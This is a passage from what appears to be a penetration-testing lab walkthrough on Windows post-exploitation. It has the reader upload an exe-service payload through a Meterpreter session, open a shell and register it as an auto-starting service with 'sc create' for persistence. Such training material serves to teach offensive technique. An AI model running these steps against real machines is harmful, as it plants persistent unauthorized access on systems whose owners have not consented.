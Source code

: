      - The format must be `exe-service` and not just `exe`. Executables run by Service Manager are different from regular executables.

8. In the Meterpreter shell, upload the executable you created by using the following commands:

	 - `cd ../../../`
	 - `upload service.exe`

     ![A screenshot depicts the results of the command.](Images/uploadWIN10.PNG)

9. Enter a command shell in your Meterpreter shell:

	 - `shell`
	
10. Create a new service that will use your payload with the following command:

	 - `sc create TestService binPath= "C:\service.exe" start= auto`

     ![A screenshot depicts the results of the command.](Images/makeservice.PNG)
